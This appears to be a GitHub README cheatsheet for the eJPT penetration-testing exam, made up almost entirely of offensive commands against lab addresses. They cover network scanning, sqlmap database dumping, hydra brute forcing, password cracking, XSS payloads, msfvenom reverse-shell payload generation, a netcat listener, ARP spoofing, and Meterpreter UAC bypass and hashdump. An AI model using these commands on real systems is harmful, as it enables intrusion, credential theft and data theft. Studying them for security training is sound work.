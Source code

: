 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam. 

### Nmap
nmap -sn 10.10.10.0/24

nmap -sV -p- -iL targets -oN nmap.initial

nmap -A -p- -iL targets -oN nmap.aggressive

nmap -p<port> --script=vuln -v <target-IP>

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

### IP Route
**Syntax**
*ip route add <Network-range> via <router-IP> dev <interface>*
  
eg.

ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

### John

john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

unshadow passwd shadow > unshadowed.txt

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

### dirb

dirb http://10.10.10.10/

dirb http://10.10.10.10/dir -u admin:admin

### Netcat
**Listening for reverse shell**
nc -nvlp 1234

**Banner Grabbing**
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists

sqlmap -r Post.req

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

#### Get database if injection Exists
sqlmap -r login.req --dbs

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

#### Get Tables in a Database

sqlmap -r login.req -D dbname --tables

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables

sqlmap -r login.req -D dbname -T table_name --dump

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump

sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
**SSH Login Bruteforcing**

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh

hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh

*You can use same for FTP, just replace ssh with ftp*

### XSS

<script>alert(1)</script>

<ScRiPt>alert(1)</ScRiPt>

*This is a great filter bypass cheatsheet*

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**

hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*

### msfvenom shells

**JSP Java Meterpreter Reverse TCP**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
  
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute

run autoroute -s 10.10.10.0/24

### ARPSpoof

echo 1 > /proc/sys/net/ipv4/ip_forward

arpspoof -i <interface> -t <target> -r <host>
  
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration

**Get shares, users, groups, password policy**

smbclient -L //10.10.10.10/

enum4linux -U -M -S -P -G 10.10.10.10

nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v

nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**

smbclient //10.10.10.10/share_name

### FTP Enumeration

nmap --script=ftp-anon 10.10.10.10 -p21 -v

nmap -A -p21 10.10.10.10 -v

**Login to FTP server**

ftp 10.10.10.10

### Meterpreter

ps_
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump
  
### Windows Command Line
**To search for a file starting from current directory**
dir /b/s "*.conf*
dir /b/s "*.txt*

**Check routing table**
route print
netstat -r

**Check Users**
net users


